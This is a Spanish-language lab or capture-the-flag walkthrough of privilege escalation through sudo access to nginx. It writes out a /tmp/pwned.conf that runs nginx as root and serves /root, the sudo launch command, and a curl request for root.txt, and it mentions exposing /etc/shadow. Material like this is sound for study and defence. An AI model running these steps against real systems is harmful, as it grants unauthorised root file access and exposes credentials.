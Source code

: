 Vulnerabilidad:

La vulnerabilidad radica en la ejecución de Nginx como root, lo que proporciona acceso completo al sistema. Esto puede ser aprovechado por un atacante para comprometer la seguridad del sistema, ya que cualquier vulnerabilidad en Nginx podría ser explotada para obtener control total sobre el sistema. Además, servir archivos sensibles del sistema a través del servidor web aumenta el riesgo de exposición de información confidencial, lo que podría resultar en actividades maliciosas como robo de identidad u otros ataques cibernéticos. Por lo tanto, ejecutar Nginx como root debe evitarse en entornos de producción y es fundamental configurar adecuadamente los permisos de usuario para minimizar los riesgos de seguridad.

Resumen de la Escalación de Privilegios con Nginx:

   1. Objetivo: Configurar Nginx para que se ejecute como root y acceder a archivos sensibles del sistema.

3.    Crear Archivo de Configuración:
4.    Crear un archivo de configuración pwned.conf en /tmp.
5.    Configurar Nginx para ejecutarse como root y servir archivos desde la raíz del sistema en un puerto específico.

7. Lanzar Nginx como Root:
8.    Ejecutar Nginx con el archivo de configuración creado, utilizando sudo.

10. Acceder a Archivos Sensibles:
11. Una vez que Nginx está corriendo como root, se puede acceder a archivos sensibles del sistema a través del servidor web, por ejemplo, /etc/shadow.

------------


#escala de privilegio:

Puedes crear o modificar el archivo pwned.conf en /tmp con el contenido necesario. Usa un editor de texto como nano o vi.

    nano /tmp/pwned.conf`

Y añade el siguiente contenido:

------------
    user root;
    events { worker_connections 768; }
    http {
        server {
            listen 9001;
            location / {
                root /root;
            }
        }
    }
------------

Iniciar Nginx con el archivo de configuración personalizado:
Utiliza el siguiente comando para iniciar Nginx y especificar el archivo de configuración pwned.conf ubicado en /tmp:

------------
    sudo nginx -c /tmp/pwned.conf

Aquí, sudo se utiliza para asegurar que Nginx se ejecute con los permisos necesarios, ya que algunas de las configuraciones (como user root; y el acceso a /root) requieren privilegios de superusuario.

Verificar que el servidor esté corriendo:
Después de ejecutar el comando anterior, puedes verificar que Nginx esté corriendo y escuchando en el puerto especificado (9001 en este caso) con el siguiente comando:
    sudo netstat -tuln | grep 9001

O, si netstat no está disponible, puedes usar ss:

    sudo ss -tuln | grep 9001

Solicitar el archivo root.txt usando cURL:
Una vez que el servidor Nginx está corriendo con la configuración especificada, puedes usar cURL para solicitar el archivo root.txt:

    curl 127.0.0.1:9001/root.txt

Este comando hará una solicitud HTTP al servidor Nginx en la dirección local (127.0.0.1) y puerto (9001), accediendo al archivo root.txt ubicado en el directorio /root.

Si todo se ha configurado correctamente, deberías ver el contenido del archivo como respuesta a la solicitud cURL.
